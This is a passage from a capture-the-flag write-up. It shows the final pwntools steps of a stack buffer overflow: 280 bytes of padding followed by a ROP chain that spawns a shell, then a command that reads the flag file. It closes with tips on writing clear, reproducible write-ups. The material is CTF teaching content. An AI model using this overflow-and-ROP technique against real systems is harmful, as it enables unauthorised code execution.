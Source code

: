 ```python
p.sendline(b'2')
p.sendline(b'0')
```

We are now in `set_highscore_name` again and can send the next payload:

```python
p.sendline(b'A' * 280 + rop_chain.chain())
```

The padding to the return address on the stack is `280`, which can be either found statically using IDA or dynamically using `cyclic`.
At this point, `/bin/sh` is being executed:

```python
p.sendline(b'cat /home/example/flag.txt')
```

This prints us the content of `flag.txt`. The flag is `FLG_{not_the_real_flag}`.

> Note: The most important take away points are:
> + Imagine the reader has never seen or touched the binary, but with your writeup in hand, the reader should be able to easily understand and reproduce the exploit
> you are presenting.
> + Make sure you explain everything you are doing and your reasoning. Explain WHY things are working the way they are. Better to over-explain than to under-explain.
> + Make sure the formatting is clean, and you are using proper Markdown.